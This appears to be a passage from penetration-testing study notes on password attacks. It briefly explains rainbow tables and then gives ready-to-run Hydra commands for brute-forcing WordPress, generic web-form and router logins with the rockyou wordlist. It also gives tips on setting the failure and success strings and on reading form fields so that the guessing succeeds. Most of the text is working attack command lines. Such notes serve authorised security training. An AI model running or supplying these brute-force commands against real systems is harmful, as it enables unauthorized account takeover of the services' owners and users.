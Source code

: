 #### Rainbow Table Attacks

Rainbow table attacks are a type of attack that attempts to discover the password from the hash. A rainbow table is a huge database of possible passwords with the precomputed hashes for each. An attacker would have a hold of some password hashes then they would run a program that compares the hashes against the hashes in the rainbow tables and if a match occurs the plain text password is given to the attacker.

### Online Password Attacks

Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc.

#### http login forms: example on Wordpress

```
root@kali:hydra -l users.txt -P /usr/share/wordlists/rockyou.txt -u 192.168.56.134 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
```

\#Anotherexample

```
root@kali:hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:F=INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
Don’t forget to inspect the login form for the required parameters and supply the string that indicates invalid login attempt.
```

Remember to use `http-get-form` or `http-form-post` depending on the request type.

It also is important to eliminate false positives by specifying the 'failed' condition with `F=`

And success conditions, `S=` You will have more information about these conditions by analyzing the webpage or in the enumeration stage! What you set for these values depends on the response you receive back from the server for a failed login attempt and a successful login attempt. For example, if you receive a message on the webpage `Invalid password` after a failed login, set `F=Invalid Password`.

#### Router login

```
root@kali:hydra -l admin -P /usr/share/wordlists/dic_files/file_1.txt  http-post-form 192.168.2.1/login.cgi:user=^USER^&password=^PASS^&login-php-submit-button=Login:Not Logged In
```

Note For router login cracking : you should view the source code of the login page and look for the field \[ form> ] and examine the \[method ] field if it is " post " or " get " then you should look the field in the code that looks like this

```
<input name="password" type="password" class="text required" id="userpassword" size="20" maxlength="15">
```

Also you have to put the phraase which appears when a wrong information provided to the router interface like " username or password does not match "
